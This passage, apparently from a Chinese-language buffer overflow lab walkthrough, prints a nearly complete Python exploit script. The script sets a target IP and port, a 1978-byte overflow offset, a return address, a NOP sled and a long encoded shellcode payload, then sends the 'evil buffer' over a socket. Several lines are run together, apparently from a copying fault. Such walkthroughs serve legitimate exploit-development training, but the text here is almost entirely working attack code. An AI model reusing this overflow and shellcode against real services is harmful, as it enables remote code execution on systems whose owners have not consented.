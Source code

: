 将有效负载复制到 exploit.py 中

![](img/106eaafbb621f0380f918758bc94f6a5.png)

所以最后的有效载荷是我的卡莉

```
import socketip = "192.168.43.57"
port = 1337
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = ("\xba\xba\x45\x54\xb0\xdb\xc3\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x52\x31\x56\x12\x03\x56\x12\x83\x54\xb9\xb6\x45\x54\xaa\xb5"
"\xa6\xa4\x2b\xda\x2f\x41\x1a\xda\x54\x02\x0d\xea\x1f\x46\xa2"
"\x81\x72\x72\x31\xe7\x5a\x75\xf2\x42\xbd\xb8\x03\xfe\xfd\xdb"
"\x87\xfd\xd1\x3b\xb9\xcd\x27\x3a\xfe\x30\xc5\x6e\x57\x3e\x78"
"\x9e\xdc\x0a\x41\x15\xae\x9b\xc1\xca\x67\x9d\xe0\x5d\xf3\xc4"
"\x22\x5c\xd0\x7c\x6b\x46\x35\xb8\x25\xfd\x8d\x36\xb4\xd7\xdf"
"\xb7\x1b\x16\xd0\x45\x65\x5f\xd7\xb5\x10\xa9\x2b\x4b\x23\x6e"
"\x51\x97\xa6\x74\xf1\x5c\x10\x50\x03\xb0\xc7\x13\x0f\x7d\x83"
"\x7b\x0c\x80\x40\xf0\x28\x09\x67\xd6\xb8\x49\x4c\xf2\xe1\x0a"
"\xed\xa3\x4f\xfc\x12\xb3\x2f\xa1\xb6\xb8\xc2\xb6\xca\xe3\x8a"
"\x7b\xe7\x1b\x4b\x14\x70\x68\x79\xbb\x2a\xe6\x31\x34\xf5\xf1"
"\x36\x6f\x41\x6d\xc9\x90\xb2\xa4\x0e\xc4\xe2\xde\xa7\x65\x69"
"\x1e\x47\xb0\x3e\x4e\xe7\x6b\xff\x3e\x47\xdc\x97\x54\x48\x03"
"\x87\x57\x82\x2c\x22\xa2\x45\x93\x1b\xad\x1b\x7b\x5e\xad\x32"
"\x20\xd7\x4b\x5e\xc8\xb1\xc4\xf7\x71\x98\x9e\x66\x7d\x36\xdb"
"\xa9\xf5\xb5\x1c\x67\xfe\xb0\x0e\x10\x0e\x8f\x6c\xb7\x11\x25"
"\x18\x5b\x83\xa2\xd8\x12\xb8\x7c\x8f\x73\x0e\x75\x45\x6e\x29"
"\x2f\x7b\x73\xaf\x08\x3f\xa8\x0c\x96\xbe\x3d\x28\xbc\xd0\xfb"
"\xb1\xf8\x84\x53\xe4\x56\x72\x12\x5e\x19\x2c\xcc\x0d\xf3\xb8"
"\x89\x7d\xc4\xbe\x95\xab\xb2\x5e\x27\x02\x83\x61\x88\xc2\x03"
"\x1a\xf4\x72\xeb\xf1\xbc\x93\x0e\xd3\xc8\x3b\x97\xb6\x70\x26"
"\x28\x6d\xb6\x5f\xab\x87\x47\xa4\xb3\xe2\x42\xe0\x73\x1f\x3f"
"\x79\x16\x1f\xec\x7a\x33")postfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(buffer + "\r\n")
```